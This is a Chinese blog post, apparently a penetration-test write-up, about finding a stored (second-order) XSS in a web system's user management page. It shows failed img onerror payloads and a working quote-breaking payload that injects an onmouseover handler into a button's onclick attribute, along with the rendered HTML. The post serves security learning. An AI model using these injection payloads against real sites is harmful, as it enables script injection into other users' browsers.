 ```yaml
---
layout: post
title:  记一次测试-二次XSS
category:
- web
tags:
- web
- xss
---
```

### 某系统测试

1. 登录后可以添加用户名称、应用用户等

   ![](/uploads/img/xss/1.png)

2. F12 查看下这两列，是个<td>标签。第一次尝试：对用户名称 aaaa输入处 构造

   ``` html
   <td style="width:96px;display: table-cell;" id="userDisplayName" align="left">aaaaa</td>
   ```

    构造个标签闭合，用户名称、应用用户分别上传如下

    ``` html
    </td><img src='1' onerror='alert(/1/)'><td>
    </td><img src='1' onerror='alert(/2/)'><td>
    ```

3. 上传上去再看，没触发

   ![](/uploads/img/xss/2.png)
    右键编辑html，才发现实体编码了，凉凉。。。
    ``` html
    <td style="width:96px;display: table-cell;" id="userDisplayName" align="left">&lt;/td&gt;&lt;img&nbsp;src='1'&nbsp;onerror='alert(/1/)'&gt;&lt;td&gt;</td>
    ```
    突然间发现，怎么这一行的`应用授权`多了几个符号，好像还错位了，柳暗花明又一村，估计有戏，再看下这部分的编码，有点意思
    ``` html
    <button onclick="javascript:window.location.href=&quot;/tyfwfw/dap/privilege/index.jsp?userId=24685f4b-9c9d-4381-8679-41b66fbd8da3&amp;userName=</td><img src=" 1'="" onerror="alert(/2/)">"'&gt;应用授权</button>
    ```
    原来`href=`中的链接`userName`参数是从应用用户中取值，并且还把单引号替换成了双引号，结果双引号和前面 onclick= 事件的第一个双引号闭合了。
4. 二次构造，应用用户即userName中给值，`aa'/onmouseover='alert(/00xss3/)'`，其中单引号从数据库读出来的时候会被替换成双引号， aa 后面的双引号用来跟`onclick="`的引号闭合，然后对button注册个onmouseover 事件，上传下试试，bingo，成功；
   ![](/uploads/img/xss/3.png)
   看下这次构造出来的编码
    ``` html
    <button onclick="javascript:window.location.href=&quot;/tyfwfw/dap/privilege/index.jsp?userId=218f3ebc-1bb2-4a46-9a58-263878ec1e0d&amp;userName=aa" onmouseover="alert(/00xss3/)" "'="">应用授权</button>
    ```
    标签里面的错误属性好像给忽略掉了，然后又试了下，去掉后面的`</button>`不闭合，浏览器渲染还是没问题
    ``` html
    <button onclick="javascript:window.location.href=&quot;/tyfwfw/dap/privilege/index.jsp?userId=218f3ebc-1bb2-4a46-9a58-263878ec1e0d&amp;userName=aa" onmouseover="alert(/00xss3/)" "'="">应用授权
    ```
    这部分浏览器对便签的处理还需要再熟悉下。。。